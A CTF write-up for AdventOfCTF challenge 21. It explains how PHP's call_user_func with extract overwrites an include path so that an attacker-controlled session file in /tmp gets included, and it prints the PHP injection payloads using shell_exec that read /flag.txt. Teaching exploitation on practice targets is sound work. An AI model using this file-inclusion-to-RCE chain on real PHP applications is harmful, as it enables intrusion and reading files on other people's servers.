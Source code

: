 +++
author = "Maik de Kruif"
title = "Challenge 21 - AdventOfCTF"
date = 2021-02-26T11:45:53+01:00
description = "A writeup for challenge 21 of AdventOfCTF."
cover = "img/adventofctf/a4afd1fffb0b662d849a6907767f0625.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "python",
    "serialization",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 2100

## Description

We are testing a new mechanism to filter out malicious content from URLs. This application is the test page for this feature. I hope it works, these hackers are very active!

The flag is in /flag.txt

Visit https://21.adventofctf.com to start the challenge.

## Recon

Upon opening the challenge website, we're greeted with some PHP code:

```php
<?php
error_reporting(0);

ini_set('display_errors', 0);
ini_set('open_basedir', '/var/www/html:/tmp');

# Make sure no evil things are passed in the URL
$file = 'filters.php';
$func = isset($_GET['function'])?$_GET['function']:'filters';
call_user_func($func,$_GET);
include($file);

# Save the name for later
session_start();
if ($_POST["name"]){
    $_SESSION["name"] = $_POST["name"];
}

header("Location: /index.php");
exit();
?>
```

Besides this, we can also see an input field for a name. From it's source, we can tell it send a `POST` request to `/get_flag.php` upon submitting the form.

## Analyzing the code

Let's start by going over the PHP code line by line.

```php
ini_set('display_errors', 0);
ini_set('open_basedir', '/var/www/html:/tmp');
```

The code starts by setting two PHP settings. The first one is pretty obvious; it disables the display of errors. The second one is a little more interesting. If we take a look at the [php documentation](https://www.php.net/manual/en/ini.core.php#ini.open-basedir) we find the following:

> Limit the files that can be accessed by PHP to the specified directory-tree, including the file itself.
> [...]
> When a script tries to access the filesystem, for example using include, or fopen(), the location of the file is checked. When the file is outside the specified directory-tree, PHP will refuse to access it.

This means we can, thus, only read files from the `/var/www/html` and `/tmp` directory. This is peculiar as we normally don't need to read anything from the `/tmp` folder.

```php
# Make sure no evil things are passed in the URL
$file = 'filters.php';
$func = isset($_GET['function'])?$_GET['function']:'filters';
call_user_func($func,$_GET);
include($file);
```

Moving on ot the next part, two variables are set: `$file` and `$func`. `$file` is set to a path which is later included with `include($file)`. To set the `$func` variable, the code will first check if `$_GET['function']` exists, and if so sets the variable to it, otherwise, the variable is set to the string `"filters"`.

After setting these variables, the script will execute `call_user_func` with two parameters. To see what this function does, we can have a look at the [docs](https://www.php.net/manual/en/function.call-user-func.php) again:

> Calls the callback given by the first parameter and passes the remaining parameters as arguments.

This means it will execute the function saved in `$func`, which, we can set using the `GET` parameter `function`. It also passes all `GET` parameters as arguments.

After calling `call_user_func`, it [includes](https://www.php.net/manual/en/function.include.php) the `$file` variable. This means it will take the contents of the file at the path saved in `$file` and pretend it was written here.

```php
# Save the name for later
session_start();
if ($_POST["name"]){
    $_SESSION["name"] = $_POST["name"];
}
```

This part is also interesting. The code start a session and, if the `"name"` parameter exists in a `POST` request to this page, saves it to this session.

The interesting part is that we don't see it being used anywhere.

```php
header("Location: /index.php");
exit();
```

Finally, the script will add a `Location` header with `/index.php` as the content, this is basically a redirect, and then exits the process.

### Summary

Let's put this all together.

Firstly, the code restricts the read access of our program to `/var/www/html` and `/tmp`. It then, if it exists, calls the function passed in the `GET` parameter `function`. If it isn't set, it will call the `filters` function instead. Afterwards, it includes a file at the path saved in `$file`.

After all of this, it will start a session and, if the `POST` parameter `name` is set, saves the contents of that parameter to the session.

## Finding the vulnerability

The goal is to read the `/flag.txt` file which is not saved in either `/var/www/html` nor `/tmp`. This means we cannot exploit the `include` function to read it directly.

Let's have another look at the bottom code for the session. A variable in the session is set, but where is it actually saved? As PHP doesn't "run" like a python server would, it can't save it to memory. This means the session is probably saved to a file.

If we have a look on Google, we can find that PHP sessions are saved as separate files in the OS's temporary directory. For Linux, this is `/tmp`.

Hooray! This means the `include` function can access the session files. This is quite useless though if we can't actually use the include function. So let's get to that first.

### Including files

The only way to include a file from what I can see is to either use `call_user_func` to include a file, or use `call_user_func` to somehow overwrite the `&file` variable.

The first approach won't work though as `GET` parameters always have a name, and the `include` function doesn't use those.

There is, however, a way to overwrite the `&file` variable. We can do this using PHP's `extract` function.

From the [docs](https://www.php.net/manual/en/function.extract):

> extract — Import variables into the current symbol table from an array

In English, this means it imports the variables from the passed array into our code.

This is great as the passed array is the `$_GET` array. This is an array in which all our `GET` parameters are saved. This means that if we add a parameter with the name "file", it will, hopefully, overwrite the existing variable.

Let's test this. Firstly we have to set the name variable. To do this we can just enter some text in the input field and press submit. After this, we can make a `GET` request to `/get_flag.php` to read the file.

To make this request, we first need the session token. We can find in the cookies in our browser. For me, it was `e62ac597cd97e0638d898fff45c3b878`. Afterwards, we can make a request like this to get the contents of our session file: `/get_flag.php?function=extract&file=/tmp/sess_e62ac597cd97e0638d898fff45c3b878`.

This then returns the following:

```text
name|s:15:"Your cool name!";
```

As we can see, our input is directly saved to the file. Because we are reading the file using `include`, it also executes any PHP code it finds there. Let's verify that by setting our name to `<?php phpinfo(); ?>`.

If we now open the page with our file read again, we see the PHP info.

## Exploit

Now that we have PHP injection, we can easily turn this into Remote Code Execution (RCE). We do this by using the `shell_exec` function like so:

```php
<?php echo shell_exec("ls"); ?>
```

If we send this as the name, we get the following result:

```text
name|s:31:"error_pages
favicon.ico
filters.php
get_flag.php
index.php
logo.png
style.css
";
```

The description told us the flag was located at `/flag.txt` so let's open it using the following input:

```php
<?php echo shell_exec("cat /flag.txt"); ?>
```

## Solution

We got the flag! It is `NOVI{extract_1s_ev1l_on_us3r_inpu7}`.
